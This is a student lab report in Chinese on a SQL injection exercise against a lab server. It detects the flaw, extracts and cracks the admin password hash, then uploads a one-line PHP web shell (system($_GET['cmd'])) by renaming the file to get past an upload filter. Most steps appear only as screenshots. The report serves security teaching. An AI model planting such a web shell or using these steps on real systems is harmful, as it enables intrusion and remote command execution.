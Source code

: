 # 第三次实验报告·关于SQL注入
## 实验环境
- 服务器：10.0.2.6

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/2.PNG)
- 攻击者：10.0.2.5

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/1.PNG)
## 实验过程
#### 1. 初步嗅探
服务器开启端口

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/3.PNG)

服务器配置信息

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/4.PNG)

服务器文件信息

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/5.PNG)

#### 2.检测SQL漏洞
 
正常查询

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/6.PNG)

基于整数的检测，==由此发现存在SQL注入漏洞。==

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/7.PNG)

#### 3.利用漏洞
嗅探数据库相关信息

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/8.PNG)
![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/9.PNG)

根据嗅探结果构造查询式，发现敏感信息.

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/10.PNG)

根据敏感信息，即可查询管理员密码

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/11.PNG)

 ==MD5解码工具，解码得到管理员密码：P4ssw0rd.==
 
 #### 4.植入后门
 构造php脚本
 
```
<?php
  system($_GET['cmd']);
?>
```
上传文件，发现上传文件限制

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/12.PNG)
![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/13.PNG)

经过更改文件后缀名后，发现上传成功

![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/14.PNG)
![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/15.PNG)

后门检测，发现运行成功。
![image](https://raw.githubusercontent.com/CUCfromHY001/ns/master/2017-2/MlCjh/%E7%BF%BB%E8%BD%AC%E8%AF%BE%E5%A0%82Cjh/03/%E5%AE%9E%E9%AA%8C%E6%88%AA%E5%9B%BE/16.PNG)


实验完成。





